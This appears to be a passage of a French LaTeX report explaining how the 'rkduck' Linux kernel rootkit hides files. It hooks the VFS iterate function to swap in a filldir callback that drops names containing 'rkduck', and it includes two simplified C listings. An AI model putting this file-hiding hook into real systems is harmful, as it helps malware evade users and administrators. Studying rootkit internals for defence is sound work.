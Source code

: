 \documentclass[12pt]{article}
\begin{document}
        Dans la fonction \texttt{iterate}, c'est un pointeur vers la fonction \texttt{filldir} stocké dans la structure \texttt{struct dir\_context *ctx} qui permet de l'appeler. Ainsi, la fonction \texttt{hijacked\_iterate} aura pour unique but de modifier le pointeur vers la fonction \texttt{filldir} pour qu'il pointe vers notre fonction \texttt{filldir\_hijacked} avant de faire appel à la version originale de \texttt{iterate}.\\

\begin{listing}[H]
\begin{verbatim}
int vfs_hijacked_iterate(struct file *file, struct dir_context *ctx) {
    int ret;

    *((filldir_t *)&ctx->actor) = &vfs_hijacked_filldir;

    vfs_hijack_stop(vfs_original_iterate);
    ret = vfs_original_iterate(file, ctx);
    vfs_hijack_start(vfs_original_iterate);

    return ret;
}
\end{verbatim}
\caption{Version simplifiée de vfs\_hijacked\_iterate dans rkduck}
\label{listing:3}
\end{listing}

        Comme nous l'avons spécifié précédemment, le code original de la fonction \texttt{iterate} a été sauvegardé. Une fois que l'on a modifié la structure \texttt{struct dir\_context *ctx} pour qu'elle contienne un pointeur vers notre fonction \texttt{hijacked\_filldir}, on rétabli le code original de la fonction \texttt{iterate} grâce à la fonction \texttt{vfs\_hijack\_stop}. Ensuite on appelle \texttt{iterate} qui va maintenant faire appel à notre fonction \texttt{hijacked\_filldir} au lieu de l'original. Ainsi, en recodant \texttt{filldir} pour qu'elle renvoit \texttt{0} lorsqu'un fichier qu'on veut cacher a été passé en paramètre (\texttt{rkduck} dans l'exemple ci-dessous), on peut effectivement dissimuler à l'utilisateur légitime des fichiers malveillants. Il ne reste plus qu'à détourner à nouveau la fonction \texttt{iterate} pour qu'on puisse continuer la dissimulation de fichiers grâce à la fonction \texttt{vfs\_hijack\_start}.\\

\begin{listing}[H]
\begin{verbatim}
static int 
vfs_hijacked_filldir(struct dir_context *ctx, const char *name, 
                     int namelen, loff_t offset, u64 ino, 
                     unsigned int d_type) 
{
    char *get_protect = "rkduck";
    
    if (strstr(name, get_protect)) {
        return 0;
    }

    return vfs_original_filldir(ctx, name, namelen, offset, ino, d_type);
}
\end{verbatim}
\caption{Version simplifiée de vfs\_hijacked\_filldir dans rkduck}
\label{listing:3}
\end{listing}
\end{document}
